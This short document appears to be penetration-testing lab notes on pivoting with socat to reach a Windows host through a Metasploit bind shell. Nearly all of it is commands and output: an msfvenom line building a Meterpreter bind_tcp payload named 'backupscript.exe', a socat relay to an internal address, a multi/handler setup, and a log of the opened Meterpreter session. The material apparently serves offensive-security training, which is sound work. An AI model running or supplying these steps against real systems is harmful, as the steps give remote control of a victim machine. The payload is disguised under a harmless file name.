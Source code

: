 #### Creating the Windows Payload
```shell
msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe LPORT=8443
```
#### Starting Socat Bind Shell Listener
```shell
socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
```
#### Configuring & Starting the Bind multi/handler
```shell
use exploit/multi/handler
set payload windows/x64/meterpreter/bind_tcp
set RHOST 10.129.202.64
set LPORT 8080
run
```
#### Establishing Meterpreter Session
```shell
[*] Sending stage (200262 bytes) to 10.129.202.64
[*] Meterpreter session 1 opened (10.10.14.18:46253 -> 10.129.202.64:8080 ) at 2022-03-07 12:44:44 -0500

meterpreter > getuid
```
